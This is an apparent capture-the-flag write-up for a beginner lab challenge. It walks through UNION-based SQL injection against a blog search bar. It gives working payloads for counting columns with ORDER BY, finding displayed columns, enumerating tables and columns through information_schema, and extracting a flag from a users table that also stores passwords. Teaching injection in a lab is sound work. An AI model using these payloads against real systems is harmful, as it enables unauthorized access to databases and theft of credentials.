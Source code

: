 ## Challenge 2: Data Extraction with Union Injection (Beginner/Intermediate)

### Objective
Retrieve hidden data using UNION injection.

### Write-up
Notice that the frontend has a search bar that searches for all blogs posted by a specific user ID.

We know that there is a SQL injection vulnerability in the search bar.

Our target is to extract a flag from the database.

First, we need to determine how many columns the query is selecting and how many columns are actually being displayed.

By using the following payload, we can determine the number of columns being selected:
```
' ORDER BY 1 #--
' ORDER BY 2 #--
' ORDER BY 3 #--
' ORDER BY 4 #--
etc.
```

We found that this causes an error: "Error executing query." It might be a syntax error. We can craft our payload using `#--` to `%23%2D%2D`, which is the URL-encoded version of `#--`.

```
' ORDER BY 1 %23%2D%2D
' ORDER BY 2 %23%2D%2D
' ORDER BY 3 %23%2D%2D
' ORDER BY 4 %23%2D%2D
etc.
```

We found that the query causes an error when we use `ORDER BY 4 #--`, which means that the query is selecting 3 columns.

Now we need to find which columns are actually being displayed. We can do this by using the following payload:
```
' UNION SELECT 1,2,3 %23%2D%2D
```

We found that only columns 2 and 3 are being displayed, which means that we can only use 2 columns to extract the flag.

Next, we need to find what tables are in the database. We can do this by using the following payload:
```
' UNION SELECT NULL, table_schema, table_name FROM information_schema.tables %23%2D%2D
```

We found that there are 2 tables in the `db` database: `blogs` and `users`.

We try to investigate the `users` table by using the following payload:
```
' UNION SELECT NULL, table_schema, column_name FROM information_schema.columns WHERE table_name = 'users' %23%2D%2D
```

We found that the `users` table has 4 columns: `id`, `username`, `password`, and `flag`.

We can extract the flag by using the following payload:
```
' UNION SELECT NULL, flag, username FROM users %23%2D%2D
```

And we can find the flag from the output.